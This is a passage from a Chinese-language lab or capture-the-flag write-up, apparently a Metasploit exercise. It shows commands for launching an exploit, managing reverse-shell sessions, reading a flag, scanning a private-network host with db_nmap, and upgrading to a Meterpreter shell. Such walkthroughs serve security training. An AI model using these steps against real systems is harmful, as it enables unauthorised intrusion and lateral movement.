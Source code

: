 进行攻击如果攻击成功，查看打开的 `reverse shell`
```
exploit -j
sessions -l     #查看打开的 reverse shell
sessions -i 1   #进入会话 1
id   #无命令行交互提示信息
ls /tmp    #得到 flag
```
![alt text](./img/得到flag1.png)

## 建立立足点发现靶标2、3、4

```ctrl+z```将session放入后台运行

对目标网络进行扫描

```
db_nmap -p 60990,80,22 192.168.131.10 -A -T4 -n
```

![扫描目标网络](./img/扫描目标网络.png)

扫描的结果显示22,80,26106端口均为开放状态

扫描后再查看```hosts```和```service```的情况

![扫描目标网络](./img/扫描目标网络.png)

```hosts```内容补充完整，```services```内容也得到了扩充

对shell进行升级，升级为```Meterpreter Shell```

![升级shell](./img/升级shell.png)

进入升级后的shell并查看当前的网络配置，如下图所示：

![查看网络配置](./img/查看网络配置.png)
```